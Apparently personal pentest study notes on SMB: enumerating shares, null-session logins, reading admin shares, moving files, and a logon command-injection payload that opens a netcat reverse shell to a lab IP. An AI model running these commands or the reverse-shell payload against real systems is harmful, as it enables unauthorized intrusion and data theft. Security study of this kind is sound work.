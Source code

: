 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SMB]]  
___

## Description:  

**To see which shares are available on a given host, run:


```
impacket-smbclient user@10.10.110.5

smbclient -L //192.168.101.11/


sudo nmap --script smb-enum-shares 192.168.101.11

sudo nmap --script smb-enum-* 192.168.101.11

enum4linux -S 192.168.101.11

sudo nmap --script smb* 192.168.93.40

```

**Null login:

`kolby@kali:~/Desktop/openVPN$ smbclient //192.168.101.11/ITDEPT -U '' -N
Try "help" to get a list of possible commands.


**Try common shares if you cannot list them:

```
smbclient //192.168.93.40/ipc$
smbclient //192.168.93.40/c$
smbclient //192.168.93.40/admin$

```


**to put a file on the share:

`put test.txt

**To get a file:

`get example.txt

**Reverse shells:

`logon “/=`nc 192.168.49.101 4444 -e /bin/bash`"


**Hosting a smb share
 
`impacket-smbserver public .

**Download everything**
`smbget -R smb://fileserver/directory`


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:56 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
